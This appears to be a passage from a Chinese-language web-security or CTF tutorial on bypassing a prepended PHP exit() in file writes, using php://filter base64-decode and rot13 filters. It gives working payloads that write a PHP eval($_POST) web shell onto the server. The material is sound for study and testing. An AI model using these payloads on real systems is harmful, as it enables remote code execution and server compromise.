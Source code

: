 #### base64绕过

base64原理请看[这里](https://www.cnblogs.com/chengmo/archive/2014/05/18/3735917.html)

**Base64编码是使用64个可打印ASCII字符（A-Z、a-z、0-9、+、/）将任意字节序列数据编码成ASCII字符串，另有“=”符号用作后缀用途。**


base64编码中只包含64个可打印字符，而PHP在解码base64时，遇到不在其中的字符时，将会跳过这些字符，仅将合法字符组成一个新的字符串进行解码


当$content被加上了<?php exit; ?>以后，我们可以使用 php://filter/write=convert.base64-decode 来首先对其解码。在解码的过程中，字符< ? ; > 空格等一共有7个字符不符合base64编码的字符范围将被忽略，所以最终被解码的字符仅有”phpexit”和我们传入的其他字符。

由于，”phpexit”一共7个字符，但是base64算法解码时是4个byte一组，所以我们可以随便再给他添加一个字符。这样前边的phpexit加上另一个字符就会被base64解码，然后后边的我们精心构造的base64字符串也会被成功解码为php代码。


payload:

```php
?filename=php://filter/convert.base64-decode/resource=1.php&content=aPD9waHAgZXZhbCgkX1BPU1RbYV0pOw==
```

成功写入

![0KD2se.png](https://s1.ax1x.com/2020/10/01/0KD2se.png)

#### rot13绕过

* str_rot13()

> str_rot13() 函数对字符串执行 ROT13 编码。
> ROT13 编码是把每一个字母在字母表中向前移动 13 个字母得到。数字和非字母字符保持不变。
> 编码和解码都是由相同的函数完成的。如果您把一个已编码的字符串作为参数，那么将返回原始字符串。


利用php://filter中string.rot13过滤器去除”exit”。string.rot13的特性是编码和解码都是自身完成，利用这一特性可以去除exit。 `<?php exit;` 在经过rot13编码后会变成 `<?cuc rkvg();` ，不过这种利用手法的前提是PHP不开启short_open_tag。

https://www.php.net/manual/zh/ini.core.php

![0KsCtI.png](https://s1.ax1x.com/2020/10/01/0KsCtI.png)

虽然官方说的默认开启，但是在php.ini中默认是注释掉的，也就是说它还是默认关闭。但是我本地 phpstudy 是开启的，导致执行payload后：


	Parse error: syntax error, unexpected 'rkvg' (T_STRING) in E:\phpstudy_pro\WWW\1\2.php on line 1

`<?php eval($_POST[a]);` rot13编码后 `<?cuc riny($_CBFG[n]);`

payload:

```php
?filename=php://filter/write=string.rot13/resource=2.php&content=<?cuc riny($_CBFG[n]);
```

成功写入文件 2.php
```php
    <?cuc rkvg();<?php eval($_POST[a]);
```
